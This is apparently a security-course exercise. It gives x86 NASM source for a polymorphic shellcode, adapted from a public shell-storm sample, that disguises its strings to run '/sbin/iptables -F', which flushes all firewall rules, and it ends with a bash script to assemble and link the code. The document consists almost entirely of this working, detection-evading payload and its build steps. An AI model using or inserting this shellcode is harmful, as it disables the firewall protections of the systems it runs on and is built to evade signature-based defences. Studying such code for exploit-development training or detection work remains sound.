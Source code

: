 ````
; Filename: poly_shellcode_825.nasm
; Author:  Samuel Dugo
; SLAE-ID:    SLAE-1376
; Size:       56 bytes (130%)
; Purpose: Polymorphic version of shellcode found on http://shell-storm/shellcode/files/shellcode-825.php

global _start			

section .text
_start:

    sub    eax,eax         ;similar to "xor eax,eax"
    cdq                    ;clears edx
    push   eax             ;adds null terminator
    mov    dx,0x462e
    dec    edx
    push   edx             ;pushes "-F"
    mov    esi,esp         ;saves the argument on esi
    push   eax             ;adds null terminator
    add    edx,0x73652635
    push   edx             ;pushes "bles"
    sub    edx,0x11F0FBF9
    push   edx             ;pushes "ipta"
    sub    edx,0x32060707
    push   edx             ;pushes "bin/"
    add    edx,0x43C0C5CD
    push   edx             ;pushes "///s"
    mov    ebx,esp         ;saves the command on ebx
    push   eax             ;adds null terminator
    push   esi             ;adds arguments
    push   ebx             ;adds command
    mov    ecx,esp         ;saves the whole command on ecx
    cdq                    ;clears edx
    mov    al,0xbb
    sub    al,0xb0         ;loads 0x0b for sys_execve
    int    0x80
````
``Code for poly_shellcode_825.nasm``

Then, it is necessary to compile the file using the following bash script.
````
#!/bin/bash
#Example of execution: ./compile.sh poly_shellcode_825

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'
````
``compile.sh``
